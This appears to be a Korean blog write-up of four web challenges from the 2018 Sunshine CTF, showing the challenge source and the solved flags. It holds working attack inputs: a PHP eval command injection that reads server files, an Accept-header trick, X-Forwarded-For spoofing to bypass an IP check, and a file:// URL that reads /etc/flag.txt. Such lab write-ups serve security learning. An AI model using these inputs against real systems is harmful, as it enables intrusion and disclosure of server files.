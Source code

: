 ```yaml
---
layout: post
title: "2018 Sunshine CTF Write up"
excerpt: "웹,,, 뭘까,,,"
categories: [Web]
comments: true
---
```


SunshineCTF write up입니다.

### 1.Evaluation

![img](https://t1.daumcdn.net/cfile/tistory/993AE74F5ACB7F010B)

이 문제는 50점으로, 매우 간단한 문제였습니다. 문제에 들어가면 아래와 같은 코드가 있습니다.

```php
<?php 
 
include "flag.php";
error_reporting(0);
show_source(__FILE__);
$a = @$_REQUEST['hello'];
eval("var_dump($a);");
 
?>
```



처음에는 hello파라미터에 ?hello=system("cat /flag.php");를 전송했는데, string(2) "?>" 라고 출력되고 flag가 나오지 않았습니다.그래서 고민을 하다가 두번째 시도에서 ?hello=system(%22cat%20flag.php|base64%22)라고 전송을 하였더니 base64로 암호화된 PD9waHAgCiRmbGFnID0iTm9wZSI7CgovLyBzdW57YzBtbTRuRF8xTmozY3RpMG5faTVfRTRzWX07가 출력되어서 복호화를 하니 문제가 해결되었습니다.

```php
<?php 
$flag ="Nope";
 
// sun{c0mm4nD_1Nj3cti0n_i5_E4sY};
```



Solve!



### 2.Marceau

![img](https://t1.daumcdn.net/cfile/tistory/997BAE405ACB7F0101)

이 문제는 힌트가 나오기 전까진 고민을 많이했습니다. 힌트에서 mime이라는 단어를 보고 해결하였습니다.그저 프록시나 Burp같은 프로그램을 이용하여 HTTPheader를 변경해주면 되는 문제였습니다.

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 라는 부분을 

Accept: text/php,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 라고 수정해주면 문제가 해결됩니다.

```php
<?php
// sun{45k_4nd_y3_5h411_r3c31v3} (nice work!)
 
// */* won't work here- you'll have to be more assertive.
if(strpos($_SERVER['HTTP_ACCEPT'], "text/php") === false)
  echo "<marquee><h3>You specifically want my PHP source. Why did you accept anything else?</h3></marquee>";
else
  show_source(__FILE__);
?>
```



sun{45k_4nd_y3_5h411_r3c31v3} 

Solve!



### 3.Home sweet home

![img](https://t1.daumcdn.net/cfile/tistory/99CFBD4B5ACB7F0113)

이 문제는 상당히 쉬웠습니다. 처음에는 어렵게 생각하여서 삽질을 오래하였는데, 실제로 해결하고 나니 그렇게 쉬운 문제 인것같습니다.이 문제는 "과연 실제로 웹사이트에서 개인클라이언트의 IP에 제한을 둔거겠어?"하는 생각으로 삽질을 하다가 해결하지 못하고있었습니다. 그래서 실제로 제한을 두었다고 생각하고 시도하니 해결되었습니다. 그저 헤더에 X-Forwarded-For: 127.0.0.1를 수정하니 문제가 해결되었습니다.



**Host**: web1.sunshinectf.org:50005



**X-Forwarded-For**: 127.0.0.1



sun{Th3rEs_n0_pl4cE_l1kE_127.0.0.1}



Solve!





### 4.Search Box

![img](https://t1.daumcdn.net/cfile/tistory/99B51E4E5ACB7F0111)

이 문제는 상당히 어려웠던 문제였습니다. 이 문제에 관한 내용을 매우 많이 구글링과 삽질을 해봤습니다. 그 결과 본 문제가 curl를 이용한다는것을 알게되었습니다. 그래서 구글링을 하다가 php버그에서 본 문제와 아주 관련이 깊은 문서를 발견하였습니다. https://bugs.php.net/bug.php?id=68089 바로 이 자료인데, 이 자료를 확인하시면 "코드 내에서 사용자 입력이 Strpos를 사용하여 스키마에 대해 검사되는 경우, NULL바이트를 사용하여 이를 전복시킬 수 있고, 그런 경우에 로컬파일이 노출이 가능합니다." 라고 적혀있습니다. 그래서 이 링크의 자료를 이용하여 문제에서 제공해주는 google의 url뒤에 /etc/flag.txt를 추가하였습니다.

http://searchbox.web1.sunshinectf.org/submit=Submit&site=file://www.google.com/etc/flag.txt#

이라는 페이로드를 전송하면 문제가 해결됩니다.



오류지적이나 잘못된 사항은 댓글로 남겨주시길 바랍니다!!!